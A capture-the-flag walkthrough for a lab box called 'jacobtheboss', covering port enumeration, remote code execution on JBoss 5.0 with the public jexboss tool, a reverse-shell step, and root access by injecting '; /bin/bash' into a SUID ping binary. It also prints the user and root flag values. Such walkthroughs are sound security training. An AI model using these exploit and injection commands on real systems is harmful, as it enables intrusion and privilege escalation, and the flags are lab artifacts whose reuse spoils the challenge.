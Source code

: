 ﻿# ENUMERATION
---



## OPEN PORTS
---

| PORT      | SERVICE                   |
| --------- | ------------------------- |
| 22/tcp    | SSH (OpenSSH 7.4)         |
| 80/tcp    | HTTP (Apache 2.4.6)       |
| 111/tcp   | RPCbind                   |
| 1098/tcp  | Java RMI                  |
| 1099/tcp  | Java Object Serialization |
| 3306/tcp  | MySQL/MariaDB             |
| 8008/tcp  | HTTP                      |
| 8083/tcp  | JBoss HTTP                |
| 40296/tcp | Unknown                   |
| 40982/tcp | Java RMI                  |
| 52306/tcp | Unknown                   |

We need to add `jacobtheboss.box` to `/etc/hosts`:

```
echo 'IP jacobtheboss.box' | sudo tee -a /etc/hosts
```


# RECONNAISSANCE
---


![Pasted image 20250408162521.png](../../IMAGES/Pasted%20image%2020250408162521.png)

Web application located at port 80 contains an admin login page and some other functionalities, I tried `XSS` on the search bar but it didn't work, I also tried `LFI` but same happened, seems like this is not the intended path to take, now, if we remember correctly, we got another website located at port 8080:

![Pasted image 20250408162626.png](../../IMAGES/Pasted%20image%2020250408162626.png)

We got something called `Jboss`, if we check the version:

```
whatweb http://jacobtheboss.box:8080

http://jacobtheboss.box:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTTPServer[Apache-Coyote/1.1], IP[10.10.230.73], JBoss[5.0][JBossWeb-2.1], Title[Welcome to JBoss&trade;], X-Powered-By[Servlet 2.5; JBoss-5.0/JBossWeb-2.1]
```

We are dealing with `JBoss 5.0`, if we search for an exploit, we can find this:

![Pasted image 20250408162907.png](../../IMAGES/Pasted%20image%2020250408162907.png)

We got `RCE`, let's proceed to exploitation phase.



# EXPLOITATION
---

Due to us knowing that we got RCE, we can download the exploit and test:

```
Github: https://github.com/joaomatosf/jexboss.git
```

After downloading the script, we can use it with:

```
python jexboss.py -host http://jacobtheboss.box:8080
```


We can see this:

![Pasted image 20250408163415.png](../../IMAGES/Pasted%20image%2020250408163415.png)

There we go, we got the shell, as it says in the script, to get a reverse shell, we can simply type the following:

```
jexremote=IP:PORT
```

If we check our listener:

![Pasted image 20250408163529.png](../../IMAGES/Pasted%20image%2020250408163529.png)

We got the connection, let's start the privilege escalation phase.


# PRIVILEGE ESCALATION
---

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250408163630.png](../../IMAGES/Pasted%20image%2020250408163630.png)

We can read user flag now:

```
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```

If we check for SUID 4000 binaries, we find this:

```
[jacob@jacobtheboss /]$ find / -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We got a few that may be interesting but after testing all of them, the only one that I could find some info was `pingsys`

![Pasted image 20250408164534.png](../../IMAGES/Pasted%20image%2020250408164534.png)

Which means that in order to get root, we can do the following:

```
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

![Pasted image 20250408164651.png](../../IMAGES/Pasted%20image%2020250408164651.png)

There we go, we got the root shell and can finally read `root.txt`:

```
[root@jacobtheboss /]# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```

![Pasted image 20250408164733.png](../../IMAGES/Pasted%20image%2020250408164733.png)

